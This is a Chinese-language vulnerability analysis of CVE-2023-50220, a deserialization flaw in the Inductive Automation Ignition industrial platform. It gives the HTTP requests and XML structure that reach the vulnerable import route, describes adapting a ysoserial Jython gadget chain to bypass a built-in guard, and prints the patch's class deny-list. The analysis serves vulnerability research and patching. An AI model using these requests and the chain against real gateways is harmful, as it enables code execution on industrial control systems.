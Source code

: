 

# Inductive Automation Ignition 反序列化分析 CVE-2023–50220 - 先知社区

Inductive Automation Ignition 反序列化分析 CVE-2023–50220

- - -

[![](assets/1707953825-46c42679def73d4834a0e93b901d63c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205231952-02493d38-c43a-1.png)

漏洞利用条件：管理员后台权限  
漏洞影响版本：Inductive Automation Ignition < 8.1.35  
本文分析版本：ignition-8.1.30

## 前言

**Inductive Automation Ignition** 是一个用于工业自动化的综合性平台，它提供了可扩展的解决方案，用于监控、控制、数据收集和分析。**Ignition** 为工业自动化提供了一套灵活且强大的工具，使用户能够构建符合其特定需求的自动化系统。

## 漏洞分析

漏洞作者在挖洞的时候，看到 **/system/gateway** 端点存在 **XML** 解析，这里使用了 **reader.setContentHandler()** 设置了对应的解析器，为 **com.inductiveautomation.ignition.gateway.servlets.gateway.MessageParser** 。因此，挖掘者在想：是否还有其他可以被利用的 **XML** 解析器？

[![](assets/1707953825-85eed272e38af3d32116f72742baf884.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205232004-09abc94c-c43a-1.png)

于是，在找 **XML** 解析器的过程中，发现了 **com.inductiveautomation.ignition.gateway.history.HistoryFlavor.Base64XmlReader** 。

[![](assets/1707953825-f64c644a84e0a37b91857fa82fd86da0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205232012-0e632066-c43a-1.png)

这个 **Base64XmlReader** 类在解析 **XML** 数据的过程中，存在反序列化操作。现在我们来回溯找漏洞触发点。

[![](assets/1707953825-8808896c353e07e45fa509ea680ccffe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205232019-12c4a68e-c43a-1.png)

从 **Base64XmlReader** 向上回溯，最终会发现漏洞起始点在 **StoreAndForwardRoutes#importData()** 中，且 **StoreAndForwardRoutes#mount()** 为该方法注册了对应的 **Web** 请求路由，为 **/store\_forward\_import/:storeName** 。下图是完整的回溯过程 (从图片底部向上看代码)，不过多赘述。

[![](assets/1707953825-eab2aa7c4e55eaf476751bb183322139.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205232034-1b80d0ae-c43a-1.png)

通过系统自带的 **js** 文件，我们得知该方法完整的请求路由为 **/data/status/store\_forward\_import/:storeName** 。通过构造如下请求，我们发现可以命中漏洞入口点。

```plain
POST /data/status/store_forward_import/test HTTP/1.1
Host: 192.168.77.131:8088
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Referer: http://192.168.77.131:8088/web/config/network.gan?3
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=node01vct2fes1su7nzhs7uuiqdmjp10.node0
Connection: close
Content-Type: multipart/form-data; boundary=--------437556657
Content-Length: 184

----------437556657
Content-Disposition: form-data; name="file"; filename="test.xml"

<?xml version="1.0"?>
----------437556657--
```

但是上面的请求并不能成功触发漏洞。因为程序要求我们传入的 **storeName** ，必须存在于系统中。在默认环境下为 **sample\_sqlite\_database** 。

[![](assets/1707953825-af1bf490d875ebedff67db8465d31e42.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205232048-23ced936-c43a-1.png)

接着，要求 **XML** 数据中要有 **data** 标签。该标签得有 **flavor、subtype** 两个属性，程序会通过这两个属性去获取对应的 **Flavor** 。这里，我们想要获取的是 **HistoryFlavor** ，所以这里应该设置 **flavor="**datasourcedata**"、subtype=""** 。

[![](assets/1707953825-e228927a1eb114f24418038e3382312c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205232055-284ac3da-c43a-1.png)

通过查看 **HistoryFlavor** 的代码，我们发现程序会把序列化数据 **base64** 编码后，存储在 **base64** 标签中。

[![](assets/1707953825-098bf37b6cb7f51dac10500094431ad5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205232134-3f9f425e-c43a-1.png)

构造如下数据，成功触发反序列化：

```plain
POST /data/status/store_forward_import/sample_sqlite_database HTTP/1.1
Host: 192.168.77.131:8088
Accept: application/json, text/plain, */*
Referer: http://192.168.77.131:8088/web/config/network.gan?3
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=node01rs3wf9uyqaahilz1x3b789hi1.node0
Connection: close
Content-Type: multipart/form-data; boundary=--------437556657
Content-Length: 594

----------437556657
Content-Disposition: form-data; name="file"; filename="test.xml"

<?xml version="1.0"?>
<data flavor="__datasourcedata__" subtype="">
    <base64>序列化数据 base64 编码</base64>
</data>
----------437556657--
```

## 漏洞利用

**Inductive Automation Ignition** 应用中存在 **jython-ia-2.7.2.1.jar** 依赖，所以这里可以尝试 **ysoserial** 中的 **Jython1** 反序列化链。但是这里直接利用会失败，原因在于 **jython-ia-2.7.2.1.jar** 里面对 **org.python.core.PyFunction** 做了一些改动，新增了一个 **readResolve()** 方法。而这个方法体里面直接抛出异常，导致反序列化无法利用该类 (如果一个类实现了 **java.io.Serializable** 接口，并重写了 **readResolve()** 方法。反序列化该类的时候，就会主动调用这个 **readResolve()** 方法)。

[![](assets/1707953825-6fb3e5caaa725758cf253c04544a032b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205232146-46c739ce-c43a-1.png)

此时思路转向寻找 **PyFunction** 的替代类，漏洞作者发现了 **org.python.core.PyMethod** 类。这个类的功能和 **PyFunction** 是类似的，这样就又把反序列化链串起来了。可以参考网上公开的 [**Jython2**](https://github.com/frohoff/ysoserial/pull/200/files) 链，稍微改造下即可。

[![](assets/1707953825-ec5376e04968bf44f1c2d3742c9bf2e2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205232154-4b5a57d2-c43a-1.png)

## 补丁分析

**Inductive Automation Ignition 8.1.35** 版本已经修复了上述漏洞，直接使用 **POC** 会发现已经无法利用。通过查看日志文件，可以得到如下结果：

```plain
INFO   | jvm 1    | W [g.CompositeClassRejectListFilter] [08:45:47]: Serial class 'org.python.core.PyMethod' REJECTED by Platform pattern 'org.python.core.PyMethod' for security. Set log level to DEBUG to log additional details for future events. store-forward-name=NewConnection, route-group=status, route-path=/store_forward_import/:storeName
```

很明显，应该是增加了反序列化过滤器。通过 **diff** 代码，我们发现 **8.1.35** 版本的启动类中新增了 **CompositeClassRejectListFilter** 类。该类用来禁止反序列化黑名单中的类。

[![](assets/1707953825-4962b148e42fcf66f83584f987b3e1d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205232205-51fa0c86-c43a-1.png)

具体黑名单如下，里面就有我们之前使用的 **org.python.core.PyMethod** 类。

```plain
public static final ClassMatchers PLATFORM_CLASS_MATCHERS = ClassMatchers.fromPatterns(new String[]{"bsh.**", "clojure.lang.PersistentArrayMap", "clojure.inspector.proxy$javax.swing.table.AbstractTableModel$ff19274a", "com.mchange.v2.c3p0.PoolBackedDataSource", "com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase", "com.vaadin.data.util.NestedMethodProperty", "com.vaadin.data.util.PropertysetItem", "com.sun.proxy.**", "com.sun.syndication.feed.impl.ObjectBean", "java.security.CodeSource", "net.sf.json.JSONObject", "org.apache.click.**", "org.apache.commons.beanutils.BeanComparator", "org.apache.commons.collections.Transformer", "org.apache.commons.collections.functors.ChainedTransformer", "org.apache.commons.collections.functors.ConstantTransformer", "org.apache.commons.collections.functors.InstantiateTransformer", "org.apache.commons.collections.map.LazyMap", "org.apache.commons.collections.functors.InvokerTransformer", "org.apache.commons.collections.keyvalue.TiedMapEntry", "org.apache.commons.collections4.comparators.TransformingComparator", "org.apache.commons.collections4.functors.InvokerTransformer", "org.apache.commons.collections4.functors.ChainedTransformer", "org.apache.commons.collections4.functors.ConstantTransformer", "org.apache.commons.collections4.functors.InstantiateTransformer", "org.apache.commons.fileupload.disk.DiskFileItem", "org.apache.commons.io.output.DeferredFileOutputStream", "org.apache.commons.io.output.ThresholdingOutputStream", "org.apache.myfaces.context.servlet.FacesContextImpl", "org.apache.myfaces.context.servlet.FacesContextImplBase", "org.apache.myfaces.el.CompositeELResolver", "org.apache.myfaces.el.unified.FacesELContext", "org.apache.myfaces.view.facelets.el.ValueExpressionMethodExpression", "org.apache.wicket.util.upload.DiskFileItem", "org.apache.wicket.util.io.DeferredFileOutputStream", "org.apache.wicket.util.io.ThresholdingOutputStream", "org.codehaus.groovy.runtime.ConvertedClosure", "org.codehaus.groovy.runtime.MethodClosure", "org.hibernate.engine.spi.TypedValue", "org.hibernate.tuple.component.AbstractComponentTuplizer", "org.hibernate.tuple.component.PojoComponentTuplizer", "org.hibernate.type.AbstractType", "org.hibernate.type.ComponentType", "org.hibernate.type.Type", "org.hibernate.EntityMode", "org.jboss.weld.interceptor.builder.InterceptionModelBuilder", "org.jboss.weld.interceptor.builder.MethodReference", "org.jboss.weld.interceptor.proxy.DefaultInvocationContextFactory", "org.jboss.weld.interceptor.proxy.InterceptorMethodHandler", "org.jboss.weld.interceptor.reader.ClassMetadataInterceptorReference", "org.jboss.weld.interceptor.reader.DefaultMethodMetadata", "org.jboss.weld.interceptor.reader.ReflectiveClassMetadata", "org.jboss.weld.interceptor.reader.SimpleInterceptorMetadata", "org.jboss.weld.interceptor.spi.instance.InterceptorInstantiator", "org.jboss.weld.interceptor.spi.metadata.InterceptorReference", "org.jboss.weld.interceptor.spi.metadata.MethodMetadata", "org.jboss.weld.interceptor.spi.model.InterceptionModel", "org.jboss.weld.interceptor.spi.model.InterceptionType", "org.jboss.interceptor.builder.InterceptionModelBuilder", "org.jboss.interceptor.builder.MethodReference", "org.jboss.interceptor.proxy.DefaultInvocationContextFactory", "org.jboss.interceptor.proxy.InterceptorMethodHandler", "org.jboss.interceptor.reader.ClassMetadataInterceptorReference", "org.jboss.interceptor.reader.DefaultMethodMetadata", "org.jboss.interceptor.reader.ReflectiveClassMetadata", "org.jboss.interceptor.reader.SimpleInterceptorMetadata", "org.jboss.interceptor.spi.instance.InterceptorInstantiator", "org.jboss.interceptor.spi.metadata.InterceptorReference", "org.jboss.interceptor.spi.metadata.MethodMetadata", "org.jboss.interceptor.spi.model.InterceptionType", "org.jboss.interceptor.spi.model.InterceptionModel", "org.mozilla.javascript.**", "org.python.core.BuiltinFunctions", "org.python.core.PyBytecode", "org.python.core.PyFunction", "org.python.core.PyMethod", "org.springframework.beans.factory.ObjectFactory", "org.springframework.aop.framework.AdvisedSupport", "org.springframework.aop.target.SingletonTargetSource", "sun.security.krb5.internal.KRBError", "sun.rmi.server.UnicastRef", "sun.rmi.transport.LiveRef", "sun.rmi.transport.tcp.TCPEndpoint", "java.rmi.server.RemoteObject", "java.rmi.server.RemoteRef", "java.rmi.server.UnicastRemoteObject", "sun.rmi.server.ActivationGroupImpl", "sun.rmi.server.UnicastServerRef"});
```

## 参考文章

[https://petrusviet.medium.com/cve-2023-50220-inductive-automation-ignition-xml-deserialization-to-rce-7b395412c6cf](https://petrusviet.medium.com/cve-2023-50220-inductive-automation-ignition-xml-deserialization-to-rce-7b395412c6cf)

